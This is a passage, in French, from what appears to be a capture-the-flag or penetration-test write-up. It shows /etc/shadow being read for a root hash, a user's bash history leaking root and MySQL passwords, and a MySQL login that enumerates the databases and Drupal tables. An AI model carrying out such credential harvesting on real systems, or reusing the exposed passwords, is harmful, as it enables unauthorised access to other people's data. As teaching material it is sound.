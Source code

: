 ```console
[root@localhost patrick]# head -n1 /etc/shadow
root:$1$7ailm4aT$4HlsZaiGztAsgj4JXL92Y.:14362:0:99999:7:::
```

### Accès à la base de données

L'historique des commandes bash de Patrick recèle de grands trésors en son sein. On y retrouve ainsi...

* Le mot de passe root ```50$cent``` entré par erreur en clair à la suite d'une faute de frappe (sus au lieu de su).
* Les commandes d'édition relatives au logiciel Tomboy, dont l'une des notes contient le mot de passe root.
* Et surtout, le mot de passe administrateur de la base de données MySQL !

```console
[patrick@localhost ~]$ cat .bash_history
df -h
rpm -qa | grep webmin
exit
mysql -u root -pmysqlpassword
su
sus
50$cent
su
logout
--snip--
```

Le mot de passe MySQL n'a pas été modifié depuis, il est alors possible de fouiller la base de données à la recherche des informations les plus intéressantes.

```console
[patrick@localhost ~]$ mysql -u root -pmysqlpassword
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 35366
Server version: 5.0.45 Source distribution

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema | 
| contacts           | 
| drupal             | 
| mysql              | 
| test               | 
+--------------------+
5 rows in set (0.03 sec)

mysql> select table_schema, table_name from information_schema.tables;
+--------------------+---------------------------------------+
| table_schema       | table_name                            |
+--------------------+---------------------------------------+
| information_schema | CHARACTER_SETS                        | 
| information_schema | COLLATIONS                            | 
--snip--
| information_schema | USER_PRIVILEGES                       | 
| information_schema | VIEWS                                 | 
| contacts           | contact                               | 
| drupal             | access                                | 
| drupal             | authmap                               | 
| drupal             | blocks                                | 
| drupal             | blocks_roles                          | 
```